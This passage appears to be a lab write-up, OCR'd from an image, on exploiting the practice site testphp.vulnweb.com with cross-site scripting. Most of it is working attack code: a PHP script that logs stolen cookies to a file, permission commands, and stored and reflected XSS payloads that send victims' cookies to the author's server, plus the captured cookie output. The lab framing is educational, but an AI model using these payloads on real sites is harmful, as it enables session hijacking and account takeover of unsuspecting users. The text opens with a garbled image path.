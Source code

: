 **Content of steal.php**:

`<?php
$cookie = $_GET['cookie'];
file_put_contents('/var/www/html/stolen.txt', $cookie . "\n", FILE_APPEND);
header('Location: http://testphp.vulnweb.com');
?>`

Then I had to set permissions:
`
sudo touch /var/www/html/stolen.txt
sudo chmod 666 /var/www/html/stolen.txt
sudo chown -R www-data:www-data /var/www/html
`

I then injected payload in guestbook: `<script\>new Image().src='http://192.168.56.109/steal.php?cookie='+document.cookie</script>`

Checked stolen cookies: `cat /var/www/html/stolen.txt`

**Output**: Captured cookie (`lassey`) (I simulated this with a custom cookie)

- Exploited Reflected XSS on /search.php:
  Injected payload in search bar: `<script>document.location='http://192.168.56.109/steal.php?cookie='+document.cookie</script>`

  Checked stolen.txt: `cat /var/www/html/stolen.txt`

**Output**: Confirmed stolen cookie (`login=test/test`) 

## Screenshots

![shot](SHOTS/media/image25.png)
